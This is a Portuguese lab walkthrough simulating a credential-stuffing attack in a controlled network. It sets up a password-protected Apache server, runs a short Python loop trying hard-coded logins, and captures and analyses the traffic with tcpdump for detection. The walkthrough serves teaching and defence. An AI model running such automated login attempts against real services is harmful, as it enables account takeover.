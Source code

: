 # CREDENTIAL STUFFING \- FLUXO FINAL

Simular e identificar um ataque de Credential Stuffing em um ambiente controlado, capturando e analisando o tráfego gerado por tentativas de login automatizadas.

### Topologia da rede \- principais utilizados

* Mostre os principais nós:  
  * **outside1** (atacante)  
  * **server1** (alvo)  
  * **ids1** (monitoramento)

## TERMINAL 1: server1 (Servidor alvo)

**1\. Instalar Apache e configurar autenticação:**  
\------------------------------------------------  
apt update  
apt install apache2 apache2-utils \-y

**2\. Criar usuário e senha protegida:**  
\------------------------------------------------  
htpasswd \-cb /etc/apache2/.htpasswd usuario1 senhacerta

**3\. Criar página protegida:**  
\------------------------------------------------  
echo '\<html\>\<body\>\<h1\>Bem-vindo ao server1 protegido\</h1\>\</body\>\</html\>' \> /var/www/html/index.html

**4\. Habilitar autenticação:**  
\------------------------------------------------  
cat \> /etc/apache2/sites-enabled/000-default.conf \<\< EOF  
\<Directory "/var/www/html"\>  
AuthType Basic  
AuthName "Área restrita"  
AuthUserFile /etc/apache2/.htpasswd  
Require valid-user  
\</Directory\>  
EOF

**5\. Reiniciar Apache e obter IP:**  
\------------------------------------------------  
service apache2 restart  
ip a | grep inet

## TERMINAL 2: outside1 (Atacante)

**1\. Criar ambiente e script de ataque:**  
\------------------------------------------------  
ip netns exec mgmt python3 \-m venv /root/credstuff\_venv  
ip netns exec mgmt bash \-c "source /root/credstuff\_venv/bin/activate && pip install requests"

cat \> /root/credstuff.py \<\< 'EOF'  
import requests  
from requests.auth import HTTPBasicAuth

url \= "http://\<IP\_DO\_SERVER1\>"

credenciais \= \[  
    ("usuario1", "senhaerrada"),  
    ("usuario1", "outrasenha"),  
    ("usuario1", "senhacerta")  
\]

for usuario, senha in credenciais:  
    r \= requests.get(url, auth=HTTPBasicAuth(usuario, senha))  
    print(f"Tentativa {usuario}:{senha} \-\> {r.status\_code}")  
EOF

(Substitua \<IP\_DO\_SERVER1\> pelo IP real)

**2\. Executar o ataque:**  
\------------------------------------------------  
/root/credstuff\_venv/bin/python /root/credstuff.py

## TERMINAL 3: ids1 (Monitoramento)

**1\. Capturar tráfego durante o ataque:**  
\------------------------------------------------  
tcpdump \-i ids1-eth0 \-w /tmp/ataque\_credential\_stuffing.pcap

**2\. Após o ataque, parar com CTRL+C**

## Análise dos resultados no ids1

**1\. Instalar script de análise:**  
\------------------------------------------------  
cat \> /root/analisar\_credential\_stuffing.sh \<\< 'EOF'  
\#\!/bin/bash

PCAP="/tmp/ataque\_credential\_stuffing.pcap"

if \[ \! \-f "$PCAP" \]; then  
  echo "Arquivo de captura $PCAP não encontrado\!"  
  exit 1  
fi

echo "📄 Analisando arquivo: $PCAP"  
echo  
echo "Tentativas de login HTTP detectadas:"  
echo "-------------------------------------"

tcpdump \-nn \-A \-r "$PCAP" | awk '  
  /HTTP\\/1.1/ {  
    split($0, a, " ")  
    code \= a\[2\]  
    if (code \== "401")  
      status \= "❌ Falha (401 Unauthorized)"  
    else if (code \== "200")  
      status \= "✅ Sucesso (200 OK)"  
    else  
      status \= "ℹ Outro código: " code

    getline; getline  
    split($0, parts, " ")  
    ip \= parts\[1\]  
    time \= strftime("%H:%M:%S")  
    print time " | IP: " ip " → " status  
  }  
'  
echo  
echo "📌 Explicação:"  
echo " \- 401: tentativa com senha incorreta"  
echo " \- 200: login com senha correta (acesso obtido)"  
echo  
echo "✅ Use isso como evidência clara de Credential Stuffing automatizado."  
EOF

**2\. Executar o script:**  
\------------------------------------------------  
chmod \+x /root/analisar\_credential\_stuffing.sh  
/root/analisar\_credential\_stuffing.sh

## INTERPRETAÇÃO

\- 401 Unauthorized → tentativa de senha errada  
\- 200 OK → login bem-sucedido  
\- As respostas foram capturadas em sequência, validando que o ataque automatizado ocorreu com sucesso.  
\- Mostra que uma das credenciais testadas era válida — exatamente como ocorre em ataques reais.

##  CONCLUSÃO

O experimento demonstrou:  
\- Como ataques de Credential Stuffing funcionam  
\- Como detectar e analisar tentativas em rede real  
\- A importância de MFA, rate-limiting e políticas de senha forte  
